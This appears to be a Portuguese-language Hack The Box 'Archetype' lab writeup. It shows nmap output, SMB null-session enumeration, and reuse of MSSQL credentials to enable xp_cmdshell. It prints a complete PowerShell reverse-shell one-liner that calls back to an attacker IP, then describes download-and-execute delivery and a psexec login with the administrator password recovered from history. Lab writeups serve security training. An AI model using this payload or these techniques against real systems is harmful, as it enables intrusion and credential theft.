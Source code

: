 ```yaml
---
title: HTB Archetype Writeup
author: Hastur
date: 2021-09-05 21:00:00 -0300
categories: [Writeups, Hack The Box - Starting Point]
tags: [HTB, Starting point, Windows, Very Easy]
image: /htb/htb-archetype-logo.png
---
```


<img src="/htb/htb-archetype-logo.png">

<br>


| Nome | Archetype       |
|------|-------------|
|IP    | 10.10.10.27|
|Pontos| 0          |
|OS    | Windows    |
|Nível | Very Easy  |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ sudo nmap -v -p- -sCV -O -Pn 10.10.10.27 --min-rate=512
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-05T19:35:06
| Not valid after:  2051-09-05T19:35:06
| MD5:   0f97 d62c 8d46 e595 8b83 982b eb14 769f
|_SHA-1: 795d c811 74ec cd90 80e3 27d6 bb77 796c a2f0 d9d4
|_ssl-date: 2021-09-05T19:47:03+00:00; -35m18s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 48m42s, deviation: 3h07m52s, median: -35m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-05T12:46:55-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-05T19:46:54
|_  start_date: N/A


```
Encontramos várias portas abertas nesta máqina, vamo começar pela `445 - SMB`.

### SMB

Vamos tentar uma conex]ao sem credenciais para verificar null session no SMB.

<img src="/htb/htb-archetype-1.png">

Temos acesso a algubs compartilhamentos, em expecial `backups`, vamos enumerá-lo.

<img src="/htb/htb-archetype-2.png">

Encontramos o arquivo, `prod.dtsConfig`, após baixarmos, e analizarmos, encontramos algumas informaçõs valiosas.

<img src="/htb/htb-archetype-3.png">

Ecnontramos as credenciais para um MSSQL: `ARCHETYPE\sql_svc:M3g4c0rp123`.

Em posse das credenciais, podemos tentar uma conex]ao remota utilizando o `mssqlclient.py`.

<img src="/htb/htb-archetype-4.png">

Conseguimos um acesso ao MSSQL, ótimo!

Podemos utilizar a função `IS_SRVROLEMEMBER`, para verificar se o usuário `sql_svc` tem privilégios administrativos.

<img src="/htb/htb-archetype-5.png">

O MSSQL retornou `1`, o que significa que temos privilégios administrativos.

Agora precisamos de uma forma de conseguir a leak de algum arquivo, ou melhor, um shell.

Existe uma funsão do MSSQL que permite executar comandos via query, podemos encontrar na pŕopria documentação da Microsoft [aqui](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

Vamos seguir os passos da documentação e testar algum comando.

<img src="/htb/htb-archetype-6.png">

Ótimo, conseguimos um RCE através do MSSQL, agora podemos tentar um reverse shell através de comandos no PowerSHell.

Primeiro vamos criar um payload de uma linha em power shell e salvá-lo no arquivo `shell.ps1`.

```
┌──(hastur㉿hastur)-[~/Archetype]
└─$ cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.251",8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Agora vamos iniciar um server http com python `python3 -m http.server 80`.

<img src="/htb/htb-archetype-7.png">

Agora setamos um `netcat` na porta 8443 que setamos em nosso payload.

<img src="/htb/htb-archetype-8.png">

Com tudo pronto, podemos enviar um payload em Power Shell no MSSQL, que vai fazer o download do script em nosso HTTP server e em seguida executá-lo, nos dando um reverse shell no netcat que abrimos.

<img src="/htb/htb-archetype-9.png">

Se olharmos em nosso servidor HTTP, podemos ver que houve uma requisição vinda da Archetype.

<img src="/htb/htb-archetype-10.png">

E em nosso netcat, temos nosso reverse shell!!!

<img src="/htb/htb-archetype-11.png">

Ótimo, estamos dentro do host da Archetype, dentro do Desktop do usuário `sql_svc`, encontramos a flag do usuário.

<img src="/htb/htb-archetype-12.png">

## Escalação de privilégios

Após um bom tempo de enumeração local, decidi checar se há algum histórico do Power Shell no usuário e descobri uma informação extremamente importante.

<img src="/htb/htb-archetype-13.png">

Encontramos as credenciais do administrador: `administrator:MEGACORP_4dm1n!!`.

Em posse destas credenciais, podemos tentar um acesso remoto ao host utilizando o `psexec.py`.

<img src="/htb/htb-archetype-14.png">

E conseguimos nosso shell com privilégios administrativos no Host Archetype.

A flag do Administrator está em seu Desktop.

<img src="/htb/htb-archetype-15.png">


E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>



